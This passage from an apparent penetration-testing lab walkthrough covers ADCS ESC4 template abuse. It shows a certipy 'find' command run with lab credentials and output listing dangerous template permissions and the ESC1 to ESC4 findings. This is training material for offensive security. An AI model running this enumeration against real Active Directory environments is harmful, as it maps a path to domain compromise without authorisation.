 `certipy` will abuse the privileges that `blwasp` has over the `ESC4` template to render it vulnerable to `ESC1`, `ESC2`, and `ESC3`; therefore, when using the `find` command to enumerate the ADCS CA for vulnerabilities, students will discover that the field `Certificate Name Flag` has the value `EnrolleeSuppliesSubject`:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.249.206 -vulnerable -stdout
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.249.206 -vulnerable -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
<SNIP> 
 2
    Template Name                       : ESC4
    Display Name                        : ESC4
    Certificate Authorities             : lab-LAB-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : 16777216
                                          65536
                                          ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Object Control Permissions
        Owner                           : LAB.LOCAL\Administrator
        Full Control Principals         : LAB.LOCAL\Authenticated Users
        Write Owner Principals          : LAB.LOCAL\Authenticated Users
        Write Dacl Principals           : LAB.LOCAL\Authenticated Users
        Write Property Principals       : LAB.LOCAL\Authenticated Users
    [!] Vulnerabilities
      ESC1                              : 'LAB.LOCAL\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'LAB.LOCAL\\Authenticated Users' can enroll and template can be used for any purpose
      ESC3                              : 'LAB.LOCAL\\Authenticated Users' can enroll and template has Certificate Request Agent EKU set
      ESC4                              : 'LAB.LOCAL\\Authenticated Users' has dangerous permissions
```
